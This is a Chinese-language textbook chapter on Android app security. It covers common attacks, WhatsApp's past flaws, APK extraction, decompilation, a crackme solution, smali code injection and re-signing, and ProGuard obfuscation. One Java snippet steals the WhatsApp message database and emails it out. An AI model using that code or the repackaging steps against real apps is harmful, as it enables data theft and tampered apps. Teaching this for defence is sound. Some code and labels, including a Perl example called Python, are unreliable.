# 第七章：安全

维基百科将安全定义为：“对伤害的抵抗程度或保护。它适用于任何脆弱且宝贵的资产，如人、住所、社区、物品、国家或组织。”

当我们思考软件安全时，脑海中可能会浮现黑客在黑色屏幕和绿色字体中工作的画面，他们快速地在控制台输入命令，以获取系统访问权限或破坏防火墙。但现实与好莱坞电影中的情景不同。**软件安全**指的是一个强大的系统，它保护用户的隐私，避免攻击者的不必要交互，并保持完整性。

计算机系统可能会遇到多种漏洞或攻击向量：

+   **后门**：后门是用于绕过应用程序安全性的点，通常是系统开发者留下的。2013 年，斯诺登曝光的一个丑闻暗示，国家安全局（NSA）拥有许多操作系统和平台的后门，包括谷歌的。

+   **拒绝服务攻击**：**拒绝服务**（**DoS**）是一种旨在使资源对用户不可用的攻击。DDoS 和 DoS 攻击属于这一类别：这些攻击包括向服务器发送请求，直到服务器无法处理所有请求，并停止向合法用户服务内容。

+   **直接访问攻击**：在这种攻击中，攻击者直接访问系统，通常目的是窃取文档或其中包含的相关信息。

+   **中间人（MitM）攻击**：在这种攻击中，第三方将计算机插入合法目的地和源头之间，并欺诈性地将自己设置为合法目的地。然后用户将所有信息发送给这个拦截器，拦截器通常又将信息重新发送到合法目的地，因此用户没有意识到信息已被截获。

    MitM 攻击的拓扑结构

+   **篡改**：篡改是指恶意修改软件，通常目的是假装它是合法版本，并在后台执行一些不希望的操作（如监控或窃取信息）。

作为操作系统，Android 并非没有这些风险。实际上，考虑到其广泛的应用范围（全球有超过十亿个 Android 设备），它比其他平台面临更多的威胁。已经有一些知名（并被广泛使用）的应用程序因设计标志通常被用作软件设计不当可能发生的情况的例子。

# WhatsApp —— “不可为”的永恒展示

WhatsApp 可以展示应用程序可能呈现的一些标志。2011 年报告了一个漏洞，指出 WhatsApp 内的通信并未加密。连接到同一 Wi-Fi 网络的设备可以访问其他设备之间的通信。几乎花了一年的时间来修复这个漏洞，而这个漏洞并不是特别复杂难以解决。

那一年晚些时候，也报告了一个问题，允许攻击者冒充用户并控制他的账户。2012 年 1 月，一名黑客发布了一个网站，如果知道电话号码，就可以更改安装了 WhatsApp 的任何设备的状态。WhatsApp 为修复这个漏洞所采取的唯一措施是封锁了网站的 IP 地址（正如任何读者可以想象的，这远非一个有效的措施）。

WhatsApp 多年来存在的一个大问题是，消息存储在本地数据库中。这是在外部存储中完成的，任何其他应用程序（以及任何恶意黑客）都可以访问该文件。这个想法可能有它的理由（例如，保持备份），但实施结果是一场灾难。数据库总是使用相同的加密密钥进行加密，因此任何可以访问该文件的人都可以轻松地解密它。以下是一个获取数据库文件并通过电子邮件发送的示例操作：

```kt
  public void onClick(View v) {
      try {   
          AsyncTask<Void, Void, Void> m = new AsyncTask<Void, Void, Void>() {

              @Override
              protected Void doInBackground(Void... arg0) {
                  GMailSender sender = new GMailSender(EMAIL_STRING, PASSWORD_STRING);
                  try {
                     File f = new File(filePathString); 
                 if (f.exists() && !f.isDirectory()) {
                   sender.addAttachment("/storage/sdcard0/ WhatsApp/ Databases/msgstore.db.crypt", SUBJECT_STRING);
                            sender.sendMail(SUBJECT_STRING,
                                    BODY_STRING,
                                    EMAIL_STRING,
                                    RECIPIENT_STRING);

                 }    
                  } catch (Exception e) {
                      e.printStackTrace();
                  }   
                  return null;
              }
          };
          m.execute((Void)null);
      } catch (Exception e) {
          Log.e("SendMail", e.getMessage());
      } 
  }
});
```

# 深入代码

当我们在特定技术上发展时，通常会用高级语言（如 C、C++或 Java）编程，然后编译我们的代码和资源到一个文件中，该文件将在独立平台上执行。编译过程在技术之间有所不同（Java 的编译过程与 C++不同，因为 Java 将在 JVM 中运行）。通过或多或少的难度，已经编译的代码可以“逆向”并从编译后的代码访问，编译后的代码通常是不可读的，变为对用户更友好的形式。

下图展示了我们在 Android 中开发应用程序的过程：


以下是上述内容的解释：

1.  最初，我们利用 Android SDK 和外部库开发我们的应用程序。最终，我们还使用了 NDK，它遵循不同的开发和编译过程。

1.  当我们的应用程序准备好，我们想要编译它时，它将被编译以在 Android 虚拟机上执行。这将被编译成一个大致相当于 DEX 格式的字节码文件，这是 Android 理解的格式。

1.  文件后来被打包并签名。签名的过程很重要，因为这样我们可以确保文件属于特定的公司，并且没有被篡改。

1.  之后，应用程序将通过 Google 应用商店或其他替代市场进行分发。

### 注意

安卓设备如果使用的是 4.4 版本或更早的操作系统，会使用一个特定的虚拟机版本，名为 Dalvik，这个名字来源于冰岛的一个渔村。从 Android 5.0 开始，这个虚拟机版本被停止使用，取而代之的是一个新的虚拟机版本，名为**Android Runtime** (**ART**)，它使用相同的字节码和 DEX 格式。

要访问生成 APK 文件的代码，只需按照逆向步骤进行即可。

# 捕获 APK 文件

我们可以使用不同的方法来捕获 APK 文件。在本书中，我们将介绍三种（截至 2015 年第四季度可用）。请注意，本章提供的信息仅用于教育目的。在进行逆向工程时，需要遵守一些规则和立法，这将在后面讨论。

## 从设备中提取文件

如果我们的设备已经 root 或者我们使用的是安装了 Google Play 服务的模拟器，可以提取已安装的 APK。请注意，root 过的设备可能会受到恶意应用程序和攻击者的针对。如果你打算 root 你的设备，互联网上有大量的免费信息可供参考。

当应用从 Play Store 或替代市场安装后，你首先需要将`adb`连接到你的电脑。首先你需要确定目标应用的包名：

```kt
adb shell pm list packages

```

尝试将应用名称与列出的某个包进行匹配，这并不总是容易的。如果你找不到，观察当你在 Play Store 中显示应用时浏览器的 URL：


此图像与 Google Maps 相对应。包名是`id=-`之后的所有内容。确定包名后，你需要获取它的完整路径：

```kt
adb shell pm path com.example.targetapp

```

这通常会返回位于`/data/app`文件夹中的地址。找到它后，你需要从设备中提取它：

```kt
adb pull /data/app/com.example.targetapp-2.apk

```

这样操作之后，你将成功下载应用的 APK。

## 使用 Wireshark 捕获 APK

Wireshark 是一个在安全领域广泛使用的网络嗅探和分析工具。它捕获网络中的流量并进行嗅探，即读取未加密的内容。即使内容被加密，也有一些技术可以误导客户端或设备认为服务器是真实的（中间人攻击），然后拦截所有发送的信息。

为了拦截 APK 文件（以及 Android 流量），你需要在电脑上创建一个热点。这将取决于你所使用的操作系统。在 Macintosh 上，可以通过选择**互联网共享**轻松完成，使用以太网作为共享的互联网连接，并提供 Wi-Fi 作为热点。这个选项可以在**配置**菜单中找到：



当手机已经连接到我们的热点并在浏览时，我们需要让 Wireshark 从连接中嗅探。使用 Wireshark 并设置它可能需要一整本书的篇幅。作为一个起点：我们需要指向与 Wireshark 共享的接口，并注意所有发送和接收的包。我们可以使用过滤器来指出发送信息的 IP，因为可能会有大量的信息。当确定了 URL 和认证头后，我们可以使用如 Postman 之类的 HTTP 请求创建器下载 APK。



## 使用外部网站

许多网站提供这项功能，以点击广告或展示广告作为交换。在 Google 上搜索"在线下载 APK 文件"，会返回成千上万的网站。一个不算详尽的搜索将引导我们下载我们的目标 APK。然而，我们*强烈*不推荐这种方法。正如我们后面将看到的，修改 APK 并插入恶意代码是件轻而易举的事。提供明显免费下载的网站背后可能隐藏着恶意代码的注入。

# APK 文件解剖

假设我们已经获得了一个 APK 文件。为了本节的用途，并且为了简化练习，我们将创建一个仅包含`Activity`内一个`TextView`的`HelloWorld`应用程序。

为了分析我们应用程序的内部结构，首先让我们解压 APK 并检查其内容。我们将看到类似以下的内容：



对于这个领域的新手来说，我们可以看到 Android 清单和`res`文件夹内的资源是直接可访问的。`classes.dex`文件包含了我们前面解释的编译后的 Java 文件。`Resources.arsc`文件（**应用程序资源文件**）包含二进制资源的列表，包括程序使用的任何类型的数据。这个文件是由**Android Asset Packaging Tool**（**aapt**）创建的。

我们现在将介绍第一种技术，读取未经混淆的文件的代码，并将文件转换为 JAR 文件，然后用反编译器打开它。为此，我们需要两个工具：

+   **dex2jar**：一个开源工具，用于将 Android APK 转换为 JAR 文件。翻译并非完全准确，但通常足以反编译 JAR 文件（更容易）并洞察代码。可以从[`sourceforge.net/p/dex2jar/`](http://sourceforge.net/p/dex2jar/)下载。

+   **JD-GUI**：Java Decompiler 项目是另一个开源项目，旨在以简单直观的方式反编译 Java 5 版本之后的 JAR 文件。我们为 Eclipse 和 IntelliJ 提供了插件，但为了本章的目的，我们将使用独立应用程序。可以从[`jd.benow.ca/`](http://jd.benow.ca/)下载。

下载完这两个应用程序后，首先将 APK 转换成 JAR 文件。为此，我们需要编写以下命令：

```kt
java –jar dex2jar.jar target.apk

```

如果我们使用 `.sh` 文件，以下是相关内容：

```kt
./dex2jar.sh target.apk

```

这将在与 `target.apk` 同一文件夹中生成一个名为 `TargetFile_dex2jar.jar` 的文件。

现在让我们打开这个文件，使用 JD-GUI 打开它，并选择 `HelloWorldActivity`。我们将看到类似于以下屏幕的内容：



这是一个应用程序的基本示例，但一个敏锐的读者会意识到，对于更复杂的应用程序，可能性也是巨大的。对于下一个练习，让我们下载一个 Crackme 并尝试玩玩它的 `insight.exercise`：

### 注意

Crackmes 通常是为了测试程序员在逆向工程方面的知识而创建的程序。它提供了一种合法的方式来“破解”软件并练习绕过安全措施，因为这里没有真正的公司参与。它们经常被用在比赛中。

为了测试一个真实的逆向工程场景，我们需要下载以下 Crackme（需要注册）：[`crackmes.de/users/deurus/android_crackme03/`](http://crackmes.de/users/deurus/android_crackme03/)。

下载后，解压并将在模拟器或设备上安装 APK 文件。启动后，它将显示以下屏幕：



这个特定的程序需要安装在真实设备上，因为在模拟器中，其中一个参数将始终是一组 0。但对于我们的目的，它将正常工作。

我们应用与之前在 `HelloWorld` 应用程序中相同的步骤（转换为 JAR，然后用 JD-GUI 打开）。打开后，导航到文件 `HelloAndroid`。我们将看到以下代码：



这是一组代码，它不能直接编译。它充满了随机的断点和奇怪的返回及条件。然而，我们可以将其重新组织在编译器中以显示基础内容并理解它：

1.  主屏幕上第一个和第二个 `TextView` 的值被取到两个变量中（`str1` 和 `str2`）。

1.  如果第一个字符串的长度小于 4，则进程会被终止，并显示带有文本 `"min 4 chars"` 的 `Toast`。

1.  有两个字符串（`str5` 和 `str6`），分别是设备 ID 和 SIM 卡序列号。

1.  还有一些字符串的组合（`str7` 和 `str8`），它们分别取 `str5` 和 `str6` 的子串，还有一个应用了 EXOR 运算符的组合。

我们可以稍微重新组织一下代码，以确保它能够编译。我们可以在同一代码中指定我们提供的值，并运行它：

```kt
      String str1 = "MyName";
        int i = str1.length();
        String str2 = "";
        String str3 = "00000";
        while (true) {

            Toast.makeText(mainActivity, "Min 4 chars", 1).show();

            String str4 = String.valueOf(0x6B016 ^ Integer.parseInt(str2.substring(0, 5)));
            TelephonyManager localTelephonyManager = (TelephonyManager) mainActivity.getSystemService("phone");
            String str5 = localTelephonyManager.getDeviceId();
            String str6 = localTelephonyManager.getSimSerialNumber();
            String str7 = str5.substring(0, 6);
            String str8 = str6.substring(0, 6);
            long l = Integer.parseInt(str7) ^ Integer.parseInt(str8);
            if (!(str4 + "-" + String.valueOf(l) + "-" + str7).equals(str3)) {
                Toast.makeText(mainActivity, "God boy", 1).show();
            }
```

在你的设备上尝试这段代码，以从`getDeviceId()`和`getSimSerialNumber()`函数中获取正确的信息。稍后将在 Crackme 中引入它们，显示的消息将是`"God boy"`（这里指的是上帝）。恭喜你。你刚刚使用逆向工程破解了你的第一个 Crackme。

# 代码注入

另一个大的安全风险是代码注入。当软件被故意修改以插入一段通常具有恶意的代码模块，执行非预期操作时，就会发生**代码注入**。这些非预期操作可能包括数据窃取、用户监控等等。因此，在这种情况下，确保应用程序被签名尤为重要。来自可信任制造商签名的应用程序不会包含注入的代码。

爱尔兰工程师 Georgie Casey 在 2013 年的一篇文章中证明了可怕的概念验证。他反编译了获奖的 Android 键盘 SwiftKey，并注入了一段代码，记录所有按键操作，并通过连接到公共网站的 Web 服务发送它们，在那里显示出来。他的目的是证明任何人都可以这样做，并将修改后的 APK 上传到替代商店之一。寻找免费 APK 的人可能已经下载并使用了它，在不知情的情况下将所有个人信息（密码和信用卡）发送到攻击者的 Web 服务。他在博客中详细解释了整个过程，这个过程有多么简单令人惊讶。在本节中，我们将展示如何修改基本的`HelloWorld`以插入一些新功能，但这个过程可以根据想象力扩展。

### 注意

坚持使用官方应用商店通常可以完全保护免受此类攻击。谷歌会使用一个名为**Bouncer**的系统自动扫描所有 APK，该系统能够检测并停用具有恶意意图的恶意软件和代码。此外，像 SwiftKey 这样的知名公司不会冒险发布包含 KeyLogger 来监视用户的应用程序，从而损害自己的声誉。

让我们回到在前几节中开发的类似于`HelloWorld`的程序。在这种情况下，我们需要另一个工具，即 apktool。之前，我们将应用程序转换成了 JAR，然后使用 JD-GUI 进行反编译。现在，我们将执行一个更精确的过程，直接将应用程序反汇编和组装成 Baksmali 和 Smali 格式（Android 虚拟机使用的格式）。Baksmali 和 Smali 在冰岛语中分别意味着反汇编器和汇编器（我们猜想谷歌的 Android 开发者主要来自冰岛，或者他们对这个国家有着强烈的热情，以至于给如此多的组件起名都与之相关）。关于这种格式没有太多的官方文档，所以现在推荐的了解它的方法是反编译应用程序。一如既往——实践胜于理论。

从[`ibotpeaches.github.io/Apktool/`](http://ibotpeaches.github.io/Apktool/)下载 apktool。将其安全地下载到您的计算机上，然后从`HelloWorld`应用程序中取出 APK，并输入以下命令：

```kt
apktool d –r HelloWorld.apk HelloWorld

```

这将把当前的 APK 文件反汇编到`HelloWorld`文件夹中。如果我们进入该文件夹，我们会观察到以下结构：

+   `AndroidManifest.xml`：这是可读的文件

+   `res/文件夹`：包含所有解码内容的资源文件夹

+   `smali/文件夹`：这个文件夹包含所有源文件，是这一节最重要的文件夹

+   `apktool.yml`：apktool 的配置文件

让我们进入`smali/`文件夹看看。其结构可能类似于以下这样：



对于 APK 中的每个类，我们已经创建了一个`smali`文件。还有一些其他文件，标记为`class$name.smali`。它们表示类文件内部的内部类（在我们的`R`类内部的类，这是生成用来访问 Android 资源的类）。`smali`（广义上）是 Java 文件的字节码表示。

现在是时候看看`smali`文件了。首先打开`HelloWorldActivity.smali`：

```kt
.class public Lcom/test/helloworld/HelloWorldActivity;
.super Landroid/app/Activity;
.source "HelloWorldActivity.java"

# direct methods
.method public constructor <init>()V
    .locals 0

    .prologue
    .line 8
    invoke-direct {p0}, Landroid/app/Activity;-><init>()V

    return-void
.end method

# virtual methods
.method public onCreate(Landroid/os/Bundle;)V
    .locals 2
    .parameter "savedInstanceState"

    .prologue
    .line 12
    invoke-super {p0, p1}, Landroid/app/Activity;- >onCreate(Landroid/os/Bundle;)V

    .line 14
    new-instance v0, Landroid/widget/TextView;

    invoke-direct {v0, p0}, Landroid/widget/TextView;- ><init>(Landroid/content/Context;)V

    .line 15
    .local v0, text:Landroid/widget/TextView;
    const-string v1, "Hello World, Android"

    invoke-virtual {v0, v1}, Landroid/widget/TextView;- >setText(Ljava/lang/CharSequence;)V

    .line 16
    invoke-virtual {p0, v0}, Lcom/test/helloworld/HelloWorldActivity;- >setContentView(Landroid/view/View;)V

    return-void
.end method
```

如果我们阅读这个文件，会看到一些熟悉的实例和名称：似乎有很多 Android 类，如`Activity`或`TextView`，还有像`setContentView()`这样的 Android 方法。文件开头三行看起来是一个类声明，之后是一个构造函数声明，最后是`onCreate()`方法。

如果我们熟悉某种机器编程，就会知道寄存器（分配空间以插入信息）的含义。我们可以在如下这样的行中观察到这一点：

```kt
new-instance v0, Landroid/widget/TextView;
.local v0, text:Landroid/widget/TextView;
const-string v1, "Hello World, Android"
```

在前面的代码中，执行了不同类型的操作（创建变量并访问它），使用了一些寄存器的方向——在这里使用了`v0`和`v1`方向。

## 操作码

操作码很容易推断，它是机器上要执行的操作代码。与其它语言和技术相比，Dalvik 的操作码集合并不庞大（我们可以访问以下 URL 作为参考，其中包含大部分操作码：[`pallergabor.uw.hu/androidblog/dalvik_opcodes.html`](http://pallergabor.uw.hu/androidblog/dalvik_opcodes.html)）。反编译 Java/Dalvik 的优点在于操作码集合较小，容易推断，因此更容易自动化反编译工具。我们刚才反编译的代码中包含的一些操作码有：

+   `invoke-super`：调用`super`方法

+   `new-instance`：创建一个变量的新实例

+   `const-string`：创建一个字符串常量

+   `invoke-virtual`：调用一个`virtual`方法

+   `return-void`：返回 void

## 注入新代码

在这个阶段，我们可能已经推断出注入代码的过程包括从功能应用创建 smali 代码并将其注入正确的位置。注意寄存器的编号以避免覆盖并使之前的代码失去功能，这一点很重要。

例如，如果我们创建一个在屏幕上显示吐司的函数，编译 APK 并进行反汇编，我们最终会得到一些类似于以下内容的代码（忽略创建应用和活动的部分）：

```kt
invoke-virtual {p0}, Lcom/test/helloworld/HelloWorldActivity;- >getApplicationContext()Landroid/content/Context;

move-result-object v1

const-string v2, "This is a Disassembled Toast!"

const/4 v3, 0x0

invoke-static {v1, v2, v3}, Landroid/widget/Toast;- >makeText(Landroid/content/Context;Ljava/lang/CharSequence;I)Landroid/widget/Toast;

move-result-object v1

invoke-virtual {v1}, Landroid/widget/Toast;->show()V
```

在我们的案例中，覆盖寄存器没有问题。现在让我们修改原始文件，我们得到的结果类似于以下内容：

```kt
.class public Lcom/test/helloworld/HelloWorldActivity;
.super Landroid/app/Activity;
.source "HelloWorldActivity.java"

# direct methods
.method public constructor <init>()V
    .locals 0

    .prologue
    .line 8
    invoke-direct {p0}, Landroid/app/Activity;-><init>()V

    return-void
.end method

# virtual methods
.method public onCreate(Landroid/os/Bundle;)V
    .locals 2
    .parameter "savedInstanceState"

    .prologue
    .line 12
    invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle;)V

    .line 14
    new-instance v0, Landroid/widget/TextView;

    invoke-direct {v0, p0}, Landroid/widget/TextView;- ><init>(Landroid/content/Context;)V

    .line 15
    .local v0, text:Landroid/widget/TextView;
    const-string v1, "Hello World, Hacked Android"

    invoke-virtual {v0, v1}, Landroid/widget/TextView;- >setText(Ljava/lang/CharSequence;)V

    .line 16
    invoke-virtual {p0, v0}, Lcom/test/helloworld/HelloWorldActivity;- >setContentView(Landroid/view/View;)V

invoke-virtual {p0}, Lcom/test/helloworld/HelloWorldActivity;- >getApplicationContext()Landroid/content/Context;

move-result-object v1

const-string v2, " This is a Disassembled Toast!"

const/4 v3, 0x0

invoke-static {v1, v2, v3}, Landroid/widget/Toast;- >makeText(Landroid/content/Context;Ljava/lang/CharSequence;I) Landroid/widget/Toast;

move-result-object v1

invoke-virtual {v1}, Landroid/widget/Toast;->show()V

return-void
.end method
```

注意，注册表中`v1`的常量字符串也已经修改，现在包含文本`"Hello World, Hacked Android!"`。

## 签名与重新构建应用

应用最后修改后，是时候重新构建应用了。类似于我们如何反汇编应用，我们将应用以下命令来重新构建它（请注意，您需要处于反汇编应用文件夹中才能重新构建它）：

```kt
apktool b ./HelloWorld

```

这个命令将在`dist`文件夹中创建一个名为`HelloWorld.apk`的文件。然而，还有一件重要的事情要做：签名应用。我们刚才创建的 APK 尚未签名，还不能在任何设备上安装。

首先，我们需要一个`keystore`来进行签名。如果我们还没有，需要使用如`keytool`这样的程序来生成一个：

```kt
keytool -genkey -v -keystore example.keystore -alias example_alias -keyalg RSA -validity 100000

```

我们需要输入一些密钥信息。虽然这不是严格要求的，因为唯一目的是作为一个重新打包 APK 的演示，我们仍然需要注意输入的密钥，因为下一步我们需要使用它。生成后，使用`jarsigner`对生成的 APK 进行签名的过程非常简单：

```kt
jarsigner -verbose -keystore example.keystore ./HelloWorld/dist/HelloWorld.apk alias_name

```

我们最终的应用将展示以下界面：



## 保护我们的应用

我们已经看到，如果没有适当的措施，反编译和重新编译应用程序是微不足道的。目的不仅仅是为了将应用程序当作自己的，我们还可以轻松访问不应被每个人访问的令牌和代码。

在本章中，我们将探讨不同的想法，但主要的是应用混淆。**混淆**是使代码对人类不可读，减慢或停止理解的过程。在某些领域，混淆是一件大事，甚至还有创建最佳混淆机制的竞赛。以下是一个 Python 语言中混淆代码的示例，它会在屏幕上显示文本 `"Just another Perl / Unix hacker"`（此示例来自维基百科，[`en.wikipedia.org/wiki/Obfuscation_(software)`](https://en.wikipedia.org/wiki/Obfuscation_(software))）：

```kt
@P=split//,".URRUU\c8R";@d=split//,"\nrekcah xinU / lreP rehtona tsuJ";sub p{ @p{"r$p","u$p"}=(P,P);pipe"r$p","u$p";++$p;($q*=2)+=$f=!fork;map{$P=$P[$f^ord ($p{$_})&6];$p{$_}=/ ^$P/ix?$P:close$_}keys%p}p;p;p;p;p;map{$p{$_}=~/^[P.]/&& close$_}%p;wait until$?;map{/^r/&&<$_>}%p;$_=$d[$q];sleep rand(2)if/\S/;print

```

特别是 Android，以及更广泛的 Java，使用 ProGuard 作为默认机制来对源代码应用混淆。在 Android 应用中激活 ProGuard 是很简单的。让我们导航到 `build.gradle`。我们很可能有一些定义好的 buildTypes（`release` 和 `debug` 是最常见的）。一种常见的做法是只为 `release` buildType 激活 ProGuard：

```kt
release { 
      debuggable false 
      minifyEnabled true 
      proguardFiles getDefaultProguardFile('proguard-android.txt'), 'proguard-rules.pro' 
      signingConfig signingConfigs.release 
}
```

`minifyEnabled true` 将激活 ProGuard 使我们的发布版本生效。让我们看看一个典型的与 Android 一起使用的 ProGuard 文件是什么样的：

```kt
-injars      bin/classes
-injars      libs
-outjars     bin/classes-processed.jar
-libraryjars /usr/local/java/android-sdk/platforms/android-9/android.jar

-dontpreverify
-repackageclasses ''
-allowaccessmodification
-optimizations !code/simplification/arithmetic
-keepattributes *Annotation*

-keep public class * extends android.app.Activity
-keep public class * extends android.app.Application
-keep public class * extends android.app.Service
-keep public class * extends android.content.BroadcastReceiver
